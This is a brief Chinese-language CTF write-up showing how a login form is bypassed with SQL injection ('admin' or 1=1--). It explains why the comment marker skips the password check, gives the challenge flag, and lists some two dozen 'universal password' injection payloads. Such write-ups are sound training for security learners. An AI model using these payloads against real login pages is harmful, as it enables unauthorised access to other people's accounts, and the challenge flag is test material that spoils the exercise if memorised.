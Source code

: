 ![alt text](image-2.png)
试试万能账户密码：
```
admin' or 1=1--
1
```
--是注释符，--后面的语句不执行，所以没有执行AND password = ?
![alt text](image-4.png)
密码输什么都可以，拿到flag：shellmates{SQLi_goeS_BrrRrRR} 
- 万能密码：
```
' or 1='1
'or'='or'
admin
admin'--
admin' or 4=4--
admin' or '1'='1'--
admin888
"or "a"="a
admin' or 2=2#
a' having 1=1#
a' having 1=1--
admin' or '2'='2
')or('a'='a
or 4=4--
c
a'or' 4=4--
"or 4=4--
'or'a'='a
"or"="a'='a
'or''='
'or'='or'
1 or '1'='1'=1
1 or '1'='1' or 4=4
'OR 4=4%00
```